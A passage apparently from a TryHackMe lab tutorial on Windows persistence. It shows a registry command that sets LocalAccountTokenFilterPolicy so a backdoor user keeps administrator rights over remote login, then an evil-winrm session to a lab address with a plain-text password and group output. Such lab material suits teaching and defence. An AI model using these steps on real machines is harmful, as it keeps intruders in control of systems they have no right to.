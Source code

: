 This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging  in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll  have to disable LocalAccountTokenFilterPolicy by changing the following  registry key to 1:

- **Command Prompt**        

```powershell
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
        
```

Once all of this has been set up, we are ready to use our backdoor  user. First, let's establish a WinRM connection and check that the  Backup Operators group is enabled for our user:

- **AttackBox**        

```shell-session
user@AttackBox$ evil-winrm -i 10.10.146.108 -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

        
```
